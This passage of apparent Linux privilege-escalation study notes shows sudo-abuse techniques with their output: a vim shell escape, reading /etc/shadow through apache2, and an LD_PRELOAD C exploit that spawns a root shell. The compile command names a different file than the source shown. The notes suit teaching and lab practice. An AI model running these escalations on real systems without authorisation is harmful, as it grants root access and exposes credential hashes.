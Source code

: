 - **vim**

```
user@debian:~$ sudo vim -c ':!/bin/bash'

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

### 1.2 - Abusing Intended Functionality

#### 1.2.1 - Detect

- Here's an example of what you can do with the apache2 webserver

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
                                          
User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/apache2
```

#### 1.2.2 - Exploit

`user@debian:~$ sudo apache2 -f /etc/shadow`

### 1.3 - LD_PRELOAD

#### 1.3.1 - Detect

```
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD
..[snip]..
```

#### 1.3.2 - Exploit

```
TCM@debian:~$ mkdir exploit && cd exploit
TCM@debian:~/exploit$ cat shell_preload.c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
    unsetenv("LD_PRELOAD");  
    setgid(0);  
    setuid(0);  
    system("/bin/bash");  
}
TCM@debian:~/exploit$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
TCM@debian:~/exploit$ sudo LD_PRELOAD=~/exploit/shell.so apache2
root@debian:/home/user/exploit# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user/exploit# exit
exit
apache2: bad user name ${APACHE_RUN_USER}
TCM@debian:~/exploit$
```
